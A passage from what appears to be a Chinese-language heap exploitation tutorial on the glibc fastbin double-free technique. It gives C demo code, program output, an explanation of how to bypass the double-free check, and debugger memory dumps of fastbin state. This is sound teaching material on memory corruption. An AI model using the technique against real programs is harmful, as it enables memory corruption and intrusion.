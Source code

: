 ```c
    strcpy(d, "DDDDDDDD");
    fprintf(stderr, "4st malloc(9) %p points to %s the first time\n", d, d);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "5nd malloc(9) %p points to %s\n", e, e);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "6rd malloc(9) %p points to %s the second time\n", f, f);
}
```
```
$ gcc -g fastbin_dup.c 
$ ./a.out 
Allocating 3 buffers.
1st malloc(9) 0x1c07010 points to AAAAAAAA
2nd malloc(9) 0x1c07030 points to BBBBBBBB
3rd malloc(9) 0x1c07050 points to CCCCCCCC
Freeing the first one 0x1c07010.
Then freeing another one 0x1c07030.
Freeing the first one 0x1c07010 again.
Allocating 3 buffers.
4st malloc(9) 0x1c07010 points to DDDDDDDD the first time
5nd malloc(9) 0x1c07030 points to EEEEEEEE
6rd malloc(9) 0x1c07010 points to FFFFFFFF the second time
```
这个程序展示了利用 fastbins 的 double-free 攻击，可以泄漏出一块已经被分配的内存指针。fastbins 可以看成一个 LIFO 的栈，使用单链表实现，通过 fastbin->fd 来遍历 fastbins。由于 free 的过程会对 free list 做检查，我们不能连续两次 free 同一个 chunk，所以这里在两次 free 之间，增加了一次对其他 chunk 的 free 过程，从而绕过检查顺利执行。然后再 malloc 三次，就在同一个地址 malloc 了两次，也就有了两个指向同一块内存区域的指针。

三个 malloc 之后：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a
0x602010:	0x4141414141414141	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1 <-- top chunk
0x602070:	0x0000000000000000
```
第一个 free 之后，chunk a 被添加到 fastbins 中：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a [be freed]
0x602010:	0x0000000000000000	0x0000000000000000      <-- fd pointer
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b
0x602030:	0x4242424242424242	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)
```
第二个 free 之后，chunk b 被添加到 fastbins 中：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk a [be freed]
0x602010:	0x0000000000000000	0x0000000000000000      <-- fd pointer
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b [be freed]
0x602030:	0x0000000000602000	0x0000000000000000      <-- fd pointer
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
```